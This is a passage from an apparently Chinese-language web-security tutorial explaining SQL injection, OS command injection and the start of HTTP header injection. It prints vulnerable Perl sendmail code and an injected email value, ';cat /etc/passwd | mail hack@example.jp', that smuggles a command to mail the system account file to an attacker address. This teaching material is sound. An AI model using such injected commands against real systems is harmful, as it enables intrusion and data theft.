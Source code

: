 　　比如，在之前的攻击案例中，就会把author的字面值(程序中使用的常量)"上野宣'--"的字符串赋值给$q

![webAttack17](https://pic.xiaohuochai.site/blog/HTTP_webAttack17.png)

　　上图中颜色标记的字符串最开始的单引号(')表示会将author的字面值括起来，以到达第二个单引号后作为结束。因此，author的字面值就成了上野宣，而后面的--则不再属于author字面值，会被解析成其他的句法

　　本案例中的问题仅仅是把未出版书籍的条目也一同显示出来了。但实际发生SQL注入攻击时，很有可能会导致用户信息或结算内容等其他数据表的非法浏览及篡改，从而使用户遭受不同程度的损失

&nbsp;

【OS命令注入攻击】

　　OS命令注入攻击(OS Command Injection)是指通过Web应用，执行非法的操作系统命令达到攻击的目的。只要在能调用Shell函数的地方就有存在被攻击的风险

　　可以从Web应用中通过Shell来调用操作系统命令。倘若调用Shell时存在疏漏，就可以执行插入的非法OS命令

　　OS命令注入攻击可以向Shell发送命令，让Windows或Linux操作系统的命令行启动程序。也就是说，通过OS注入攻击可执行OS上安装着的各种程序

**OS注入攻击案例**

　　下面以咨询表单的发送功能为例，讲解OS注入攻击。该功能可将用户的咨询邮件按已填写的对方邮箱地址发送过去

![webAttack18](https://pic.xiaohuochai.site/blog/HTTP_webAttack18.png)

　　下面摘选处理该表单内容的一部分核心代码

<div class="cnblogs_code">
<pre>my $adr = $q-&gt;param('mailaddress');
open(MAIL, "| usrsbin/sendmail $adr");
print MAIL "From: info@example.com\n"</pre>
</div>

　　程序中的open函数会调用sendmail命令发送邮件，而指定的邮件发送地址即$adr的值

　　攻击者将下面的值指定作为邮件地址

<div class="cnblogs_code">
<pre>;cat /etc/passwd | mail hack@example.jp</pre>
</div>

　　程序接收该值，构成以下的命令组合

<div class="cnblogs_code">
<pre>| usrsbin/sendmail ; cat /etc/passwd | mail hack@example.jp</pre>
</div>

　　攻击者的输入值中含有分号(;)。这个符号在OS命令中，会被解析为分隔多个执行命令的标记

　　可见，sendmail命令执行被分隔后，接下去就会执行 cat etcpasswd | mail hack@example.jp这样的命令了。结果，含有Linux账户信息etcpasswd的文件，就以邮件形式发送给了hack@example.jp

【HTTP首部注入攻击】

　　HTTP首部注入攻击(HTTPHeader Injection)是指攻击者通过在响应首部字段内插入换行，添加任意响应首部或主体的一种攻击。属于被动攻击模式

　　向首部主体内添加内容的攻击称为HTTP响应截断攻击(HTTPResponse Splitting Attack)

　　如下所示，Web应用有时会把从外部接收到的数值，赋给响应首部字段Location和Set-Cookie

<div class="cnblogs_code">
<pre>Location: http://www.example.com/a.cgi?q=12345
Set-Cookie: UID=12345</pre>
</div>

